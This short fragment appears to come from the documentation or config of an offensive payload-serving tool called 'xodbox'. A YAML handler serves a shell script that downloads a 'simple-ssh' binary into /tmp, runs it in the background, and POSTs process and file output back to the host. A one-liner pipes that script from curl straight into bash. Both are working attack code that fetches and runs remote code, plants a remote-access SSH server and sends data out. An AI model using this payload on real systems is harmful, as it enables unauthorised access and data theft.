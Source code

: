 ```yaml
---
title: Simple SSH
description: Simple SSH (requires build of simple ssh server in static dir)
weight: 1
pattern: /ssh.sh$
is_final: true
data:
  headers:
    Content-Type: text/plain
  body: |
    DEST_FILE=/tmp/s
    OS=$(uname)
    ARCH=$(uname -m)
    curl {{.Request.Host}}/mdaas/$OS/$ARCH/simple-ssh > $DEST_FILE
    chmod +x $DEST_FILE
    bash -c "$DEST_FILE > /tmp/bso 2>&1 &" &
    r=$(ps aux | grep bs ;cat /tmp/bso; ls -lah /tmp/bs)
    disown

    echo $r
    curl "{{.Request.Host}}/l/res/" --data "$r" -X POST
---
```



```bash
curl xodbox/ssh.sh|bash
```